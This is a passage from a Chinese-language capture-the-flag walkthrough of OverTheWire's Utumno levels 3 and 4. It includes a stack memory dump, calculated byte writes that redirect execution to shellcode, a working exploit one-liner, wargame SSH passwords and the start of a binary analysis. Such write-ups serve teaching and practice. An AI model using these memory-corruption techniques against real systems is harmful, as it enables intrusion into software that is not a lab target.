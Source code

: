 ```bash
0xffffde7c:	0x4d4f4800	0x682f3d45	0x2f656d6f	0x6d757475
0xffffde8c:	0x00336f6e	0x5f485353	0x45494c43	0x313d544e
0xffffde9c:	0x322e3338	0x322e3732	0x312e3030	0x31203839
0xffffdeac:	0x31343131	0x00323220	0x415f434c	0x45524444
0xffffdebc:	0x653d5353	0x53555f6e	0x4654552e	0x4c00382d
...

```

多看几个，慢慢翻找到shellcode地址,这里就选`0xffffddcc`。

&ensp;&ensp;ebp+40(40^0=0)需要写0x39,i等于0:"\x28\xcc"

&ensp;&ensp;ebp+41(41^3=42)需要写0xde,i等于1: "\x2a\xdd"

&ensp;&ensp;ebp+42(42^6=45)需要写0xff,i等于2: "\x2c\xff"

&ensp;&ensp;ebp+43(43^9=34)需要写0xff,i等于3: "\x22\xff"

运行一下：

```bash
utumno3@utumno:/utumno$ python -c "print '\x28\xcc\x2a\xdd\x2c\xff\x22\xff'" | /utumno/utumno3
oogieleoga
utumno3@utumno:/utumno$ 

```

## Utumno 04 

**SSH :** ssh utumno4@utumno.labs.overthewire.org -p 2227

**Pass :** oogieleoga

依旧选择dump下来分析。

```bash
$ ./crawl.sh 4 oogieleoga
sshpass -p oogieleoga scp -P 2227 utumno4@utumno.labs.overthewire.org:/utumno/utumno4  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno4'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

用IDA分析流程分析出来大概是将参数1字符串转成数字(int型)，如果数字转成unsigned short后>63程序就退出，否者将参数2粘贴到栈上。

观察将int转成unsigned short的反汇编:
```
mov     [ebp+j], ax
```
